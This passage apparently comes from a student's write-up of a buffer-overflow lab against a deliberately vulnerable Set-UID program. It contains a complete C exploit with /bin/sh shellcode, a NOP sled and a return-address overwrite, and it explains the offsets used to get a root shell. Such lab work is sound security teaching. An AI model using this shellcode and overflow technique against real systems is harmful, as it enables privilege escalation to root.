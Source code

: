 The address of `str` is `0xbfffea77`. We can now create a exploit program:

```c
/* exploit.c */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
	"\x31\xc0" /* xorl %eax,%eax */
	"\x50" /* pushl %eax */
	"\x68""//sh" /* pushl $0x68732f2f */
	"\x68""/bin" /* pushl $0x6e69622f */
	"\x89\xe3" /* movl %esp,%ebx */
	"\x50" /* pushl %eax */
	"\x53" /* pushl %ebx */
	"\x89\xe1" /* movl %esp,%ecx */
	"\x99" /* cdq */
	"\xb0\x0b" /* movb $0x0b,%al */
	"\xcd\x80" /* int $0x80 */
;

int main(int argc, char **argv)
{
	char buffer[517];
	FILE *badfile;
	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
	/* You need to fill the buffer with appropriate contents here */
	*((long *) (buffer + 63)) = 0xbfffea77 + 0x80;
	memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
	return 0;
}
```

3. Compile and run the exploit program:

<img src="/images/3-4-1.PNG" style="zoom:67%;" />

Observation: The attack is successful, and we obtain a root shell. However, `id` shows that the `uid` is still 1000, not 0.

Explanation:

- The distance of the buffer and the `$ebp` (base pointer) is 59 bytes, which only depends on the buffer size. Since `$ret=$ebp+4`, the distance between the buffer and the return address is 63 bytes.
- The address of `str` is `0xbfffea77`. 
- The return address must be set inside the NOP sled, i.e. somewhere after the beginning of the `str` buffer. We choose `0xbfffea77 + 0x80` as the return address. Upon returning from `bof`, the program will jump to the NOP and does nothing until it reaches the shellcode, which is executed.
- The shellcode will be executed with the privileges of the Set-UID program, which is root.
